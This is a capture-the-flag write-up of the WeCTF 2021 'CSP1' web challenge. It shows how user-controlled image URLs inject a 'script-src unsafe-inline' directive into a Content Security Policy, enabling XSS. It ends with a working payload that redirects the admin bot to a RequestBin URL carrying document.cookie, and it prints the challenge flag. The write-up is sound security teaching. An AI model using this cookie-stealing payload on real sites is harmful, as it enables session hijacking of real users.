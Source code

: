 ```yaml
---
title: "WeCTF 2021"
categories: [Writeups]
layout: post 
---
```


# WeCTF 2021

## Team Placing: #117 / 574

This was a Web-only CTF that had some really cool challenges. I wasn't able to play as much as I wanted to, but I did get to struggle with a few challenges and learned a ton from the writeups!

The following writeup is a walkthrough of a challenge which involved bypassing the Content Security Policy (CSP) on a website via CSP policy injection, allowing for a Cross-Site-Scripting (XSS) attack, and ultimately the stealing of the cookies of an Admin Bot.

### Solvers: This challenge was a collaborative effort between myself and my teammate, [Dayton Hasty (dayt0n)](https://github.com/dayt0n)
### Challenge: CSP1
### Category: Web 

## Description:

#### Shame on Shou if his web app has XSS vulnerability. More shame on him if he does not know how to use CSP correctly.

#### Hint: Search Content-Security-Policy if you don't know what that is and check your browser console.

## Walkthrough:

Navigating to the provided URL, we're presented with a page that looks like this:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.001.png)

We can provide HTML such as `<h1>This is a test</h1>` and after we hit submit, it will be displayed to us on the next page. However, if we try to insert JavaScript via `<script>` tags, we are blocked by the [`Content Security Policy (CSP)`](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

Since we're given the source code for the site, let's take a look at how the CSP is implemented:

```javascript
@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```

From the code it looks like the [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) directive being set to `none` is the cause of our issues. The `script-src` directive specifies valid sources for JavaScript, and it being set to `none` means, as you would expect, there are no valid sources. 

So.. how do we get around this? Well you might notice that there is another directive, `img-src` which is using our input to specify valid sources for images:

```javascript
img_urls = [x['src'] for x in bs(content).find_all("img")]
...
resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
```

So, the code will parse any `<img>` tags for the URL provided in the `src` parameter, and insert those URLs into the CSP. This means that we can perform a [CSP policy injection attack](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#policy-injection)!

Now that we have a good idea of the exploit, let's craft it:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.002.png)

```html
<img src="http://; script-src 'unsafe-inline'"></img>
<script>alert(1)</script>
```

So, because the CSP is simply inputting the "URL" in the `src` parameter into the CSP, we can easily inject a duplicate `script-src` directive, but we will set ours to `unsafe-inline` allowing us to use inline `<script>` tags. And because of the way CSP works, our version of the directive will take precedence.

Let's fire off our test and see if works:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.003.png)

Popped!

Nice, so we've successfully exploited the vulnerability but the flag is actually held in the Admin Bot's cookies. So, let's change our exploit a little bit to allow us to steal his cookie:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.004.png)

```html
<img src="http://; script-src 'unsafe-inline'"></img>
<script>window.location = 'https://requestbin.io/1fy84do1?cookie=' + document.cookie;</script>
```

Great, this exploit will make the Admin Bot navigate to our [RequestBin](https://requestbin.io/) link, with his cookie set as the value of a GET parameter, allowing us to inspect the request and thus see the cookie.

Let's send the final exploit to the Admin Bot, and inspect the RequestBin:

![](/assets/img/writeups/WeCTF2021/CSP1%20Writeup.005.png)

And there's the flag! Pretty cool challenge that highlighted one of the easier ways to get around CSP.

### Flag: we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_\<sq1_injEcti0n\>}